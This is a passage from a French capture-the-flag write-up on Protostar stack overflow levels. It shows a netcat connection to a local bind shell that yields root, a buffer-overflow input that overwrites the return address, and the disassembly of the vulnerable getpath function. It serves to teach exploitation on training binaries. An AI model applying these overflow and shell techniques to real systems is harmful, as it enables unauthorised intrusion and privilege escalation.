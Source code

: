 Le programme semble alors gelé, c'est juste qu'il attend une connexion qu'on lui donne :

```shellsession
$ nc 127.0.0.1 4444 -v
127.0.0.1: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

## Level 6

On a un cas qui ressemble aux précédents :

```shellsession
$ python -c 'print "A"*80 + "BBBB"'  | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAABBBB
Segmentation fault
$ dmesg | tail -1
[44970.395686] stack6[2477]: segfault at 42424242 ip 42424242 sp bffffbc0 error 4
```

Mais en apparence seulement. La fonction `main` ne fait que appeller `getpath` que voici :

```nasm
getpath (int32_t arg_4h);
; var char *s @ ebp-0x4c
; var int32_t var_ch @ ebp-0xc
; arg int32_t arg_4h @ ebp+0x4
; var int32_t var_4h @ esp+0x4
0x08048484      push    ebp
0x08048485      mov     ebp, esp
0x08048487      sub     esp, 0x68
0x0804848a      mov     eax, str.input_path_please: ; 0x80485d0
0x0804848f      mov     dword [esp], eax ; const char *format
0x08048492      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x08048497      mov     eax, dword [stdout] ; obj.stdout__GLIBC_2.0
                                   ; 0x8049720
0x0804849c      mov     dword [esp], eax ; FILE *stream
0x0804849f      call    fflush     ; sym.imp.fflush ; int fflush(FILE *stream)
0x080484a4      lea     eax, [s]
0x080484a7      mov     dword [esp], eax ; char *s
0x080484aa      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x080484af      mov     eax, dword [arg_4h]
0x080484b2      mov     dword [var_ch], eax
0x080484b5      mov     eax, dword [var_ch]
0x080484b8      and     eax, 0xbf000000
0x080484bd      cmp     eax, 0xbf000000
0x080484c2      jne     0x80484e4
0x080484c4      mov     eax, str.bzzzt___p ; 0x80485e4
0x080484c9      mov     edx, dword [var_ch]
0x080484cc      mov     dword [var_4h], edx
0x080484d0      mov     dword [esp], eax ; const char *format
0x080484d3      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484d8      mov     dword [esp], 1 ; int status
0x080484df      call    _exit      ; sym.imp._exit ; void _exit(int status)
0x080484e4      mov     eax, str.got_path__s ; 0x80485f0
0x080484e9      lea     edx, [s]
0x080484ec      mov     dword [var_4h], edx
0x080484f0      mov     dword [esp], eax ; const char *format
0x080484f3      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x080484f8      leave
0x080484f9      ret
```
